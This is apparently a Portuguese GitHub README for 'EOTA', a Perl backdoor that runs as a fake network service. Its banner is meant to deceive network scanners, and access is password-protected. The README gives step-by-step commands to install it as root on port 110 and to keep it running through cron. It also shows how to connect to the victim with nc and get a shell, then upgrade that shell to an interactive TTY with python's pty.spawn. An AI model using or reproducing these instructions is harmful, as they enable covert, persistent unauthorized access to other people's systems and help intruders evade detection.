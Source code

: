 # EOTA
Este script é uma backdoor projetada para funcionar como um serviço, qual quer serviço que voce desejar.
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.
Por favor modifique o codigo fonte da ferramenta.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:
perl -e 'print crypt ("PASSWORD","salto")'
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git
>$ cd PERL
>$ chmod a+x EOTA.pl
>$ perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110
>PASSWORD
>id

## TTY
Se voce precisar de um TTY voce verificar com o python por exemplo para obter uma linha de comando mais interativa:
>which python
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'
